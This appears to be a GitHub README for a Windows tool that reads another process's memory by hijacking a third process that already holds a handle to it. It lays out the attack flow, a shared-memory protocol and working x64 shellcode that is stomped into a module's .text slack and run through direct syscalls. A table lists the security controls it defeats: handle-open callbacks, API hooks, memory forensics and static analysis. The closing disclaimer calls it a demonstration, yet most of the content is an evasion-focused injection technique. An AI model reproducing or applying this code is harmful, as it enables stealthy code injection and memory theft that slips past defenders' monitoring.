

# Proxy Handle Hijack Demonstration

Read arbitrary process memory from user-mode without ever opening a handle to the target.

## The problem

Opening `PROCESS_VM_READ` to another process triggers `ObRegisterCallbacks` — a kernel-level notification mechanism used by security software to monitor handle creation. This is the primary detection surface for cross-process memory access.

## The solution

Don't open a handle. Use one that already exists.

1. **Enumerate all system handles** via `NtQuerySystemInformation(SystemHandleInformation)`
2. **Find a process that already holds `PROCESS_VM_READ` to the target**
3. **Verify by duplicating the handle**
4. **Store only the raw handle value**
5. **Hijack the proxy process by stomping shellcode into module's `.text` slack**
6. **The shellcode runs inside the proxy process**



At no point does anyone open a handle to the target. The proxy process already had the handle. The duplicated handle in step 3 exists for microseconds and is only used for verification. What gets stored and used is a bare `USHORT` — meaningless outside the proxy process's handle table.

## Architecture

```
1. NtQuerySystemInformation(16) → scan ALL system handles
   │
   ├─ PID 42, HandleValue=0x1234, GrantedAccess=VM_READ, ObjectPID=target
   │
2. Verify (microseconds):
   OpenProcess(PID 42, PROCESS_DUP_HANDLE)
   DuplicateHandle(0x1234 → our process → &duped)
   GetProcessId(duped) == target ✓
   CloseHandle(duped)
   CloseHandle(owner)
   │
3. Hijack PID 42:
   OpenProcess(PID 42, VM_OP|VM_RD|VM_WR|CREATE_THREAD)
   NtAllocateVirtualMemory → ProxyData struct (R/W shared memory)
   Stomp shellcode into .text slack → PAGE_EXECUTE_READWRITE
   ProxyData.handle_value = 0x1234          ← raw USHORT, not a HANDLE
   ProxyData.syscall_num = NtReadVirtualMemory_num ^ XOR_KEY
   NtCreateThreadEx → remote thread runs shellcode
   │
4. Read memory:
   Write {target_addr, size, signal=1} to ProxyData
   Shellcode: syscall(decrypt(syscall_num), 0x1234, target_addr, buf_addr, size)
   Wait for signal=0 → read buffer
```

## Why it works

**No handle to target is ever opened.** Not by your process. Not during the hijack. The proxy process already held handle `0x1234` to the target before you touched it — from normal operation (compatibility shims, crash reporters, debug tooling).

**The syscall happens in the proxy's context.** `NtReadVirtualMemory` called from PID 42 looks like PID 42 reading memory. From the kernel's perspective, a legitimate process is performing normal memory access on a handle it already owns.

**Direct syscalls bypass user-mode hooks.** The shellcode executes `syscall` directly, never touching `ntdll.dll`. If `NtReadVirtualMemory` is hooked by a security product, the hook is irrelevant.

**The handle value is a bare number outside the proxy.** In your process, `0x1234` is meaningless. In the proxy process, it's a real handle. By running code inside the proxy, you use the proxy's own handle table.

## ProxyData protocol

Shared memory structure in the proxy process:

```
+0x00: syscall_num    (u32)  — syscall number, encrypted with xor_key
+0x04: xor_key        (u32)  — per-session random XOR key
+0x08: handle_value   (u64)  — the stolen handle value
+0x10: signal         (u32)  — 1 = request, 0 = done
+0x14: status         (u32)  — NTSTATUS from syscall
+0x18: target_addr    (u64)  — address to read
+0x20: size           (u64)  — bytes to read (max 4096)
+0x28: buffer[4096]   — result
```

## Shellcode

```asm
loop:
    mov eax, [rsi+0x10]        ; signal
    test eax, eax
    jz loop                     ; wait
    mov eax, [rsi+0x00]        ; encrypted syscall number
    xor eax, [rsi+0x04]        ; decrypt
    mov rcx, [rsi+0x08]        ; handle (0x1234 — valid only inside this process)
    mov rdx, [rsi+0x18]        ; target_addr
    lea r8,  [rsi+0x28]        ; buffer
    mov r9,  [rsi+0x20]        ; size
    mov qword [rsp+0x28], 0    ; bytes_returned (unused)
    mov r10, r9
    syscall                     ; NtReadVirtualMemory(handle, addr, buf, size, ...)
    mov [rsi+0x14], eax        ; status
    mov dword [rsi+0x10], 0    ; signal = done
    jmp loop
```

## Files

| File | Purpose |
|---|---|
| `proxy.cpp` | Handle enumeration (NtQuerySystemInformation), duplication for verification, process hijacking, shellcode stomping, remote thread creation |
| `reader.cpp` | Memory read interface — writes ProxyData fields, sets signal, polls for response |
| `syscalls.cpp` | Syscall gadget finder (`syscall; ret` in ntdll), stub generation, direct syscall dispatch |
| `revoke.cpp` | Closes our own handles to prevent external debugger access |
| `common.h` | Logging, Windows API helpers |
| `stealth_strings.h` | Runtime string obfuscation |

## Stealth properties

| Technique | What it defeats |
|---|---|
| Handle enumeration + hijack | `ObRegisterCallbacks` (handle open detection) |
| Direct syscalls | User-mode API hooks (ntdll IAT/EAT patching) |
| Module stomping | Memory forensics (no new executable regions) |
| Trampoline deexecution | Post-hoc analysis (trampoline zeroed, thread start rewritten) |
| String obfuscation | Static binary analysis (strings encrypted at rest) |

## Building

Visual Studio 2022 + Windows SDK.

## Disclaimer

Demonstration of Windows handle architecture and process management. Handle enumeration, duplication, and remote thread creation are standard documented Windows APIs. The techniques described follow the documented Windows security model for process and handle access rights.

